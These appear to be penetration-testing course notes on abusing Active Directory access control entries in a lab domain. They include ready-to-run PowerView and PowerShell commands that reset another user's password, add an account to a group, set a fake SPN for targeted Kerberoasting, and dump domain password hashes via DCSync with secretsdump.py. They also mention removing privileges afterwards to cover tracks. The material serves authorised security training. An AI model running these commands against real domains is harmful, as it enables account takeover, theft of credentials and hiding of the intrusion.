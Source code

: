 ## Access Control Entities

### Why are ACEs Important

ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise.

There are 2 types of ACLs:

1. Discretionary Access Control List (DACL)
2. System Access Control List (SACL)

4 specific ACEs to highlight the power of ACL attacks:

| Attack | Description |
|--------|-------------|
| ForceChangePassword | Gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords). |
| GenericWrite | Gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module. |
| AddSelf | Shows security groups that a user can add themselves to. |
| GenericAll | Grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access. |


Breakdown of the varying possible ACE attacks and the tools to perform these attacks from both Windows and Linux (if applicable). 
![Alt text](Assets/ACL_attacks_graphic.png)


### ACL Enumeration

```powershell
## PowerView
Import-Module .\PowerView.ps1

## Target specific user
$sid = Convert-NameToSid wley 
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 

## Reverse Search & Mapping to GUID 
$guid= "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

```powershell
## PowerView
## Create list of domain users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

## For-loop to get ACL information
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

*Bloodhound can perform the same features but in a simpler manner through its GUI.*

## ACL Abuse Tactics

### ACL Chain Attack - Sample Scenario

To perform the attack chain, we have to do the following:

1. Use the wley user to change the password for the damundsen user
2. Authenticate as the damundsen user and leverage GenericAll rights to add a user that we control to the Help Desk Level 1 group
3. Take advantage of nested group membership in the Information Technology group and leverage GenericAll rights to take control of the adunn user

```powershell
## Creating PSCredential Object
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

## Create SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

## Changing User's Password
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

## Repeat for damnundsen user 
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

## Adding to Group
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

## Create Fake SPN 
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

## Kerberoast Attack

## Clean up
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

## DCSync

DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

```powershell
## View group membership
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

## Check replication rights of user
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

## If we had certain rights over the user (such as WriteDacl), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks.

## Extract NTLM and Kerberos Keys
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

## Check for reversible encryption option 
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```